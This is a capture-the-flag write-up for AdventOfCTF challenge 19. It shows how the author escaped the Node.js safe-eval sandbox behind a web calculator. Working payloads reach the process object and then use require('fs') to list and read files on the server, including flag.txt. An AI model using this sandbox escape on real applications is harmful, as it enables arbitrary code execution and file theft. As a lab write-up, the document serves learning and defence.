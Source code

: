 +++
author = "Maik de Kruif"
title = "Challenge 19 - AdventOfCTF"
date = 2021-02-25T23:18:28+01:00
description = "A writeup for challenge 19 of AdventOfCTF."
cover = "img/adventofctf/d80f13d1ab714f7864c2a9ef56c5f767.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1900

## Description

We found out that it was possible to insert Javascript code in the calculator. Oops! We found an awesome module to prevent against this abuse. Hopefully it is all better now. The flag is in flag.txt.

Visit https://19.adventofctf.com to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

The description also states it was possible to enter javascript code, which we saw in the [previous challenge]({{% ref "posts/adventofctf/challenge_18.md" %}}), but that it has been fixed now.

## Finding the vulnerability

To verify what the description says, let's try to enter `res` in the input field. Sadly, it looks like it actually has been fixed as we now get the following error:

```text
evalmachine.<anonymous>:11
  SAFE_EVAL_521493=res
  ^

ReferenceError: res is not defined
    at evalmachine.<anonymous>:11:3
    at Script.runInContext (vm.js:133:20)
    at Script.runInNewContext (vm.js:139:17)
    at Object.runInNewContext (vm.js:322:38)
    at safeEval (/opt/app/node_modules/safe-eval/index.js:24:6)
    at /opt/app/server.js:13:11
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
```

When looking at this output, we can see that it uses the `safe-eval` module to evaluate the input.

I personally don't know this module so let's Google around a bit. Eventually, I found [this Github Issue](https://github.com/hacksparrow/safe-eval/issues/16#issuecomment-554301596) which talks about safe-eval not being so safe. Exactly what we need.

When scrolling down on the issue, we can see a comment with the following code:

```text
(
delete(this.constructor.constructor),delete(this.constructor),
this.constructor.constructor("return process")()
)
```

_Note: Sorry this code is not highlighted. If I do so, my formatter will mess it up..._

The comment has no further text in it so let's try entering the code. Don't forget to replace the double quotes (`"`) with single ones (`'`) though as, otherwise, the JSON will no longer be valid.

After making the request, the server returns the following string: `[object process]`. This means the code worked, and we can build an exploit on it.

## Exploit

Because we now have the `process` object, we can use it to require modules and execute code.

To read the directory contents of the sever, we can use the following code:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readdirSync('.');
})();
```

_Note: Again, not formatted as my formatter will replace the single quotes with double ones._

In this code, I used the `process` to get the `require` function. I did this so I could get access to the `fs` module to read the directory contents. This, in turn, is all wrapped by a [self-executing anonymous function](https://developer.mozilla.org/en-US/docs/Glossary/Self-Executing_Anonymous_Function) so I could use variables to make it easier.

The above code returns the following output:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Here we see the `flag.txt` file. Now let's read it using the `fs` module again:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readFileSync('flag.txt');
})();
```

## Solution

We got the flag! It is `NOVI{s@fe_eval_is_not_so_saf3}`.
